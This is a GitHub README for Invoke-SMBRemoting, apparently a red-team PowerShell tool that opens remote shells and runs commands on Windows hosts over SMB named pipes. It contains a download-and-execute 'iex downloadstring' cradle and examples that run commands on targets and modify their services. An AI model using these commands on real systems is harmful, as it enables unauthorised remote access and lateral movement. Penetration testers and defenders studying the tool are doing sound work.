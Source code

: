 # Invoke-SMBRemoting
Interactive Shell and Command Execution over Named-Pipes (SMB)

Invoke-SMBRemoting utilizes the SMB protocol to establish a connection with the target machine, and sends commands (and receives outputs) using Named Pipes.

Note: The user you run the script as needs to be administrator over the target system

First, load the script in memory:

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-SMBRemoting/main/Invoke-SMBRemoting.ps1')
```

### Interactive Shell
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local"
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -PipeName Something -ServiceName RandomService
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -Verbose
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -ModifyService -ServiceName SensorService -Verbose
```

### Command Execution
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all"
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -PipeName Something -ServiceName RandomService
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService
```
```
Invoke-SMBRemoting -ComputerName "Workstation-01.ferrari.local" -Command "whoami /all" -ModifyService -ServiceName SensorService -Verbose
```

![image](https://github.com/Leo4j/Invoke-SMBRemoting/assets/61951374/645eaffe-e3d3-4428-b7a4-14bf95f5ddce)



